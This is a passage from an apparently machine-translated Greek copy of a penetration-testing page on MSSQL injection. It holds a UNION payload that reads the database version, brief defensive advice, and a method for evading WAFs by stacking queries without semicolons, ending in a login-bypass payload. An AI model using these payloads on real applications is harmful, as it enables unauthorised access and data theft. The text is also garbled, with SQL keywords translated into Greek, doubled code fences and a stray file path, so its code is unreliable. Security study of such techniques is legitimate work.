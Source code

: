 ```
0xunion+select\Nnull,@@version,null+from+users--
```

Μετά την εκτέλεση της επίθεσης, ο εισβολέας θα λάβει την έκδοση της βάσης δεδομένων MSSQL από την απόκριση του διακομιστή.

## Προστασία από MSSQL Injection

Για να προστατευτείτε από επιθέσεις MSSQL Injection, πρέπει να εφαρμόσετε τις παρακάτω προφυλάξεις:

- Χρησιμοποιήστε παραμετροποίηση ερωτημάτων (query parameterization) για να αποτρέψετε την εκτέλεση κακόβουλων εντολών SQL.
- Επιβεβαιώστε την είσοδο του χρήστη και εφαρμόστε αποτρεπτικούς ελέγχους για να αποφύγετε την εισαγωγή κακόβουλου κώδικα SQL.
- Ενημερώστε την MSSQL βάση δεδομένων σας στην τελευταία έκδοση και εφαρμόστε τις απαραίτητες ενημερώσεις ασφαλείας.

Ακολουθώντας αυτές τις προφυλάξεις, μπορείτε να μειώσετε σημαντικά τον κίνδυνο επίθεσης MSSQL Injection στην εφαρμογή σας.
```

### WAF Bypass with unorthodox stacked queries

According to [**this blog post**](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/) it's possible to stack queries in MSSQL without using ";":

```sql
```sql
ΕΠΙΛΕΞΤΕ 'α' ΕΠΙΛΕΞΤΕ 'β'
```
```

So for example, multiple queries such as:

```sql
```sql
χρήση [tempdb]
δημιουργία πίνακα [test] ([id] int)
εισαγωγή [test] τιμών(1)
επιλογή [id] από [test]
απαλοιφή πίνακα [test]
```
```

Can be reduced to:

```sql
```sql
Χρήση [tempdb]create/**/table[test]([id]int)insert[test]values(1)select[id]from[test]drop/**/table[test]
```
```

Therefore it could be possible to bypass different WAFs that doesn't consider this form of stacking queries. For example:

```
# Προσθήκη άχρηστης exec() στο τέλος και καθιστώντας το WAF να πιστέψει ότι αυτό δεν είναι έγκυρο ερώτημα
admina'union select 1,'admin','testtest123'exec('select 1')--
## Αυτό θα γίνει:
SELECT id, username, password FROM users WHERE username = 'admina'union select 1,'admin','testtest123'